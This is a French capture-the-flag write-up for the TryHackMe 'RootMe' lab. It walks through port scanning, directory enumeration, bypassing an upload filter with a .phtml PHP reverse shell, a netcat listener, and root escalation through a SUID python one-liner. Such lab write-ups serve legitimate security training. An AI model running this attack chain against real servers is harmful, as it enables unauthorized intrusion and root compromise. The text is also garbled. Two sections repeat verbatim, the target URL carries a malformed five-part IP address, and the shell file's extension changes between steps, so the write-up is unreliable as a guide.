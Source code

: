 # THM : RootMe
**Difficulté** : Facile  
**Lien de la salle** : [RootMe](https://tryhackme.com/room/rrootme)

## Résumé
1. Scan avec Nmap
2. Énumération du site web
3. Contournement du filtre de téléchargement
4. Obtention d'un shell
5. Escalade de privilèges
6. Conclusion

## Scan avec Nmap
Comme toujours, utilisons Nmap pour trouver les ports ouverts sur la cible :

```bash
nmap 10.10.19.177 -A -p- -oN nmapResults.txt
```

### Résultats du scan

- **Ports ouverts** : 22 (SSH), 80 (HTTP)
- **Version d'Apache** : 2.4.29

### Questions

- **Combien de ports sont ouverts ?**
  Réponse : 2
- **Quelle version d'Apache est utilisée ?**
  Réponse : 2.4.29
- **Quel service fonctionne sur le port 22 ?**
  Réponse : SSH

## Énumération du site web

Utilisons Gobuster pour trouver des répertoires cachés sur le site web :

gobuster dir -u 10.10.19.177 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

### Résultats

- Répertoires trouvés : /uploads, /css, /js, /panel

### Question

- **Quel est le répertoire caché ?**
  Réponse : /panel/

## Contournement du filtre de téléchargement

En essayant de télécharger un fichier `php-reverse-shell.php` via le formulaire de téléchargement dans /panel, nous recevons une erreur indiquant que les fichiers PHP ne sont pas acceptés. En changeant l'extension du fichier en `.phtml`, le téléchargement réussit.

### Question

- **Quel est le répertoire caché ?**
  Réponse : /panel/

## Contournement du filtre de téléchargement

En essayant de télécharger un fichier `php-reverse-shell.php` via le formulaire de téléchargement dans /panel, nous recevons une erreur indiquant que les fichiers PHP ne sont pas acceptés. En changeant l'extension du fichier en `.phtml`, le téléchargement réussit.

## Obtention d'un shell

Nous avons trouvé notre reverse shell téléchargé dans le répertoire /uploads. Pour obtenir un shell, nous devons démarrer un écouteur sur notre machine :

nc -lnvp 1234

Puis, naviguer vers notre reverse shell :

http://10.10.19.177.46/uploads/shell.phar

### Résultats

Nous obtenons une connexion shell sur notre écouteur.

## Escalade de privilèges

Ensuite, recherchons les fichiers avec les permissions SUID :

````bat
find / -perm -4000 
````

### Résultats

Nous trouvons que `/usr/bin/python` a le bit SUID. Nous pouvons l'utiliser pour obtenir un shell root :

````pyth
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

````

### Questions

- **Quel fichier avec les permissions SUID est inhabituel ?**
  Réponse : /usr/bin/python
- **Quel est le contenu de root.txt ?**
  Réponse : THM{HIDDEN}

## Conclusion

Ce que l'on a appris : 

- Filtre pour fichier php
- escalades de privilèges basique 
- recherche de fichier avec permission 

### Appréciation

8/10 pour un débutant qui débute les ctf même si les elevation de privilège ne sont pas simple au début.